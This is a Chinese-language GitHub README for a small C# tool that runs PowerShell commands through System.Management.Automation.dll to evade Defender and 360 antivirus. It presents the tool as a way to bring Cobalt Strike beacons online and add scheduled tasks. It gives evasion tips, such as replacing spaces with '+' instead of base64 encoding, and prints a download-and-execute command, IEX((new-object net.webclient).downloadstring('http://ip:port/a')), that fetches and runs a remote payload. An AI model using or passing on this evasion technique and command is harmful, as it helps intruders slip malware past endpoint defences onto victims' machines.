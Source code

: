 # powershell-bypss
powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控。

尝试过使用base64对命令进行编码，但是好像会被Defender检测，用纯命令反而不会，这里用+加号替换了命令中空格，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要```Csharp.exe IEX+((new-object+net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的** 

![32430eaf1b8ae7db520dd85e5cc82bf](https://user-images.githubusercontent.com/48757788/198879143-1caaf6d9-2ed9-4894-9233-10ff7aa7ad39.jpg)

![d559a936be1592a0bcbbaff24e88dc8](https://user-images.githubusercontent.com/48757788/198879156-82253c57-ff50-4b21-be0d-d71253db032b.jpg)





